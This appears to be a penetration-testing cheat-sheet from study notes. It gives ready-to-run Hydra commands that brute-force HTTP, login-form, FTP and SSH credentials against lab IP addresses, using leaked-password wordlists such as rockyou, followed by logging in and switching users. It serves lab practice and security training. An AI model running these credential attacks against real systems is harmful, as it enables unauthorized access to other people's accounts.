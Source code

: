 # Hydra
Online brute forcing tool.

---
### Basic Usage
Using a wordlist:
```bash
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.62.19.68 -s 30905 http-get /
```

We can use the `-L` flag for the usernames wordlist and the `-P` flag for the passwords wordlist. Since we don't want to brute force all the usernames in combination with the passwords in the lists, we can tell `hydra` to stop after the first successful login by specifying the flag `-f`. The `-C` flag is for credential username:password combinations. The `-u` flag tries all users on each password, instead of trying all 14 million passwords on one user, before moving on to the next.

```bash
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```

Example of static password brute force with username list:
```bash
hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```

Post-form request examples:
```bash
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

```bash
hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

Using custom generated usernames/passwords with [[CUPP]]
```bash
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```

### Attacking local FTP
Brute force login credentials
```bash
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```
Login to FTP
```bash
ftp 127.0.0.1
```
Switch user
```bash
su - m.gates
```
___
### Attacking SSH
```bash
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```
Connect
```bash
ssh b.gates@178.35.49.134 -p 22
```
___
### Wordlists
```bash
/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
/opt/useful/SecLists/Usernames/Names/names.txt
```


---


